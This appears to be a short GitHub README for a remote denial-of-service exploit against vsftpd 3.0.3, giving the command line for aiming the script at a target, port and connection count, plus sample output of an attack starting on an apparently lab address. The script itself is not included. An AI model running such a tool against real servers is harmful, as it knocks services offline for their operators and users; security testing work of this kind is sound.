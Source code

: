 # vsftpd-3.0.3-DoS
vsftpd 3.0.3 Exploit - Remote Denial of Service

## Usage
```
python3 vsftpd303-dos.py <TARGET> <PORT(DEFAULT:21)> <MAX_CONNS(DEFAULT:50)>
```

```
._________________.
|     VS-FTPD     |
|      D o S      |
|_________________|
|By XYN/DUMP/NSKB3|
|_|_____________|_|
|_|_|_|_____|_|_|_|
|_|_|_|_|_|_|_|_|_|


[!] Testing if 10.10.10.245:21 is open
[+] Port 21 open, starting attack...
[+] Attack started on 10.10.10.245:21!

```
